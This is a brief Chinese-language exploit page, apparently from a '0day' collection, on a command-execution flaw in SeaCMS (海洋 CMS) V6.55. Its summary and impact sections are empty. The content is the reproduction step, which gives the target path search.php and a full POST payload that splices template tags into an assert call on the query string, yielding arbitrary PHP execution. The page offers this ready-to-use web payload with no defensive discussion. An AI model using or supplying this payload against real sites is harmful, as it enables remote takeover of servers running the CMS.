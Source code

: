 # 海洋 CMS V6.55 命令执行

> 原文：[http://book.iwonder.run/0day/Seacms/海洋 CMS V6.55.html](http://book.iwonder.run/0day/Seacms/海洋 CMS V6.55.html)

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

path:

```
http://0-sec.org/search.php 
```

POST:

```
searchtype=5&searchword={if{searchpage:year}&year=:as{searchpage:area}}&area=s{searchpage:letter}&letter=ert{searchpage:lang}&yuyan=($_SE{searchpage:jq}&jq=RVER{searchpage:ver}&&ver=[QUERY_STRING]));/* 
```


